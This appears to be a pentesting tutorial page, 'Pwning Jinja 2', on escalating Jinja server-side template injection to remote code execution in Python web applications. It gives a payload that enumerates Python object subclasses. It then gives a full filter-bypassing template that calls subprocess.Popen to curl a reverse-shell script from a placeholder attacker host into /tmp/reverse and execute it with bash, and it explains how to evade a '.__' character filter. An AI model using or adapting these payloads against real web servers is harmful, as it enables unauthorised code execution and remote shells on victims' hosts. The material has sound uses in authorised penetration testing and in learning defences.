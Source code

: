 ```yaml
---
title: Pwning Jinja 2
tags:
  - advanced
  - pentesting
  - jinja
  - server
  - side
  - template
  - injection
  - python
  - web-app
---
```


## RCE w/ Jinja templates

In our previous article on
[[server-side-template-injection#Leaking sensitive information from Jinja|server-side template injection (SSTI) attacks against Jinja]],
we only discussed leaking sensitive information using some Python builtins.
That doesn't do SSTI against Jinja must justice because we can _definitely_
gain remote code execution (RCE) with a little bit of elbow grease.

What have to realize with Jinja is that we have access to _all_ of the Python
packages, classes, types, methods, etc. imported by the web application and
currently available in the Python runtime at time of template injection. This
means we have access to things like `subprocess.Popen`, `os`, `sys` etc.

Using the following dark magic, we can expose all classes available to us in
the Python runtime through Jinja template injection:

```python
{{ dict.mro()[-1].__subclasses__() }}
```

What do these incantations mean? `mro` stands for **Method Resolution Order
(MRO)** and it's a method inherited by every Python class that exposes the
class order an object searches to find the implementation of a method in any of
its parent classes. In the snippet above, we use the `<class 'object'>` class,
always the last class in the MRO, to obtain access to all the subclasses of the
`<class 'object'>` class.

The `<class 'object'>` class is the parent of _all_ classes implemented in
Python, giving us access to all global class definitions in the current
runtime. Finally, we call the special `__subclasses__` method that gives us a
reference to all the subclasses of the `<class 'object'>` class in the current
Python runtime, giving us the ability to instantiate arbitrary objects for any
class in the current runtime. More on these builtin classes can be found below:

- [MRO](https://docs.python.org/3/reference/datamodel.html#type.__mro__)
- [\_\_subclasses\_\_](https://docs.python.org/3/reference/datamodel.html#type.__subclasses__)

The following snippet is a Jinja template that uses `subprocess.Popen` to
download a reverse shell `bash` script from the attacker host to the victim
host, saving it to `/tmp/reverse` and then executing `/tmp/reverse` in `bash`
to initiate a reverse shell callback to the attacker host:

```python
{% set string = "" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[-1]|attr(subclasses)() %}
{{ subclasses_r }}
{% if subclasses_r[570](["curl", "http://{ATTACKER_HOST}:{ATTACKER_PORT}/reverse", "-o", "/tmp/reverse"]) %}
	{{ subclasses_r[570](["bash", "/tmp/reverse"]) }}
{% endif %}
```

Be wary of the index reference `subclasses_r[570]` - this won't always be the
same for all Python web applications vulnerable to Jinja SSTI. Like I mentioned
earlier, every time a Python web application starts, the `__subclasses__` order
_will_ change. Thus, we have to expose the entire list of `__subclasses__`
first, find the index of the `subprocess.Popen` subclass in the
`__subclasses__` list, and then use that for our follow-up RCE payload.

### Bypassing Jinja template filters

The above snippet provides an example of bypassing Jinja template filters. In
our case, we were avoiding the following bad characters:

- `.__` The Python web application would reject templates with any characters
  following that exact pattern. In order to access the `__mro__` and
  `__subclasses__` attributes of our `string` and `<class 'object'>` classes,
  we used the Jinja `attr` function to access class attributes and methods. We
  also used the Jinja `{%%}` directives to store the outcomes of our attribute
  and method calls.

We also use `{% if %}` and `{% endif %}` to spawn our download and execute
`subprocess.Popen` calls consecutively instead of in parallel. More or
bypassing Jinja template filters, or just really good example payloads, can be
found on HackTricks:

- [Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#accessing-global-objects)

## Related pages

- [[reversing-python-web-applications|Reversing Python web applications]]
- [[server-side-template-injection|Server-side template injection]]
